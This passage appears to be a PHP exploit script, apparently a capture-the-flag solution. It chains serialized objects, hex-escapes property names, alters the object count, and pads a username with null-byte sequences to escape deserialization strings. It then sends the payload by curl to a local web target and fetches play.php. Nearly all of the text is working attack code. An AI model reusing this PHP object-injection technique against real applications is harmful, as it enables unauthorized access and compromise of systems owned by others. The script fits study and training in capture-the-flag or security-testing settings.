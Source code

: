 ```php
}

class jungle
{
    protected $name = "";

    public function __construct($name = "Lee Sin")
    {
        $this->name = $name;
    }
}


function console($line){
    $arr = explode(':',$line);
    for ($i = 0;$i<sizeof($arr);$i++){
        if(preg_match('/name/',$arr[$i])){
            $arr[$i] = str_replace("name",'\6e\61\6d\65',$arr[$i]);
            $arr[$i-2] = str_replace('s','S',$arr[$i-2]);
        }
    }
    $result = implode($arr,':');
    $result = str_replace('"midsolo":1:','"midsolo":2:',$result);
    return $result;
}

function pad($poc){
    $pad = '";s:7:" * pass";s:111:"0';
    $username = 'drom'.str_repeat('\0*\0',(strlen($pad))/2);
    $password = '0'.'";s:4:"drom";'.$poc.'s:8:"\0*\0admin";i:0;}';
    $args = '?username='.urlencode($username).'&password='.urlencode($password);
    return $args;
}

function CURL($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $output = curl_exec($ch);
    curl_close($ch);
    return $output;
}

$tmp  = console(serialize(new topsolo(new midsolo(new jungle()))));
$url = 'http://127.0.0.1/qw/webfuzhu/html/';
CURL($url.pad($tmp));
echo CURL($url.'play.php');
```
